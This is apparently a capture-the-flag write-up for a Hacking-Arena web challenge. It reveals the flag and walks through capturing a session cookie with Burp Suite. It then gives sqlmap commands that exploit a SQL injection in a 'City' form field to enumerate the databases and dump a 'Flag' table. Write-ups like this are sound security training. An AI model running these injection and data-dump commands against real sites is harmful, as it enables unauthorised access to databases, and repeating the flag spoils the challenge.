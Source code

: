 # Flag

> **Hacking-Arena{H4rd d4y5 0verfl0w}**

# Prompt

> **Find the flag here: [http://r2d2.hackingarena.com:1819](http://r2d2.hackingarena.com:1819/)**

# Solution

When logging in as user=anonymous, we can tell that the unusual text-form that appears can be tested for vulnerability. Since this text-form is a unique case for user=anonymous, we need to get the cookie for this scenario.

Retrieving the cookie can be done by using **burpSuite** and intercepting the web server when logging in as anonymous. We are then left with the cookie:

```
Cookie: PHPSESSID=4h84k6rantkj5olieg85ui31q5
```

This cookie can be used with **SQLMap** to test vulnerability of specific forms, which hopefully will prompt us the tables of the web server.

````
sqlmap -u "http://r2d2.hackingarena.com:1819/index.php" --cookie="PHPSESSID=4h84k6rantkj5olieg85ui31q5" --forms --dbs
````

We were then asked which form we wanted to test and we chose the form for city. The unique text form which appeared by logging in as anonymous

![[Pasted image 20241024155950.png]]

Furthermore, we allowed SQLMap to test the field with random values, which prompted us a message telling us that post parameter 'City' was injectable. Finally, we allowed SQLMap to exploit the SQL injection.

![[Pasted image 20241024160208.png]]

The bottom four databases are known to be default in a system. Therefor, we proceed with the database "BeatlesData".

We now attempt to extract tables from database "BeatlesData", and yet again select the exploitable form "city".

```
sqlmap -u "http://r2d2.hackingarena.com:1819/index.php" --cookie="PHPSESSID=4h84k6rantkj5olieg85ui31q5" --forms -D BeatlesData --tables
```

![[Pasted image 20241024160349.png]]

Lastly, we extract the data from database "BeatlesData" and table "Flag" to be dumped in our CLI.

```
sqlmap -u "http://r2d2.hackingarena.com:1819/index.php" --cookie="PHPSESSID=4h84k6rantkj5olieg85ui31q5" --forms -D BeatlesData -T Flag --tables --dump
```

![[Pasted image 20241024160522.png]]
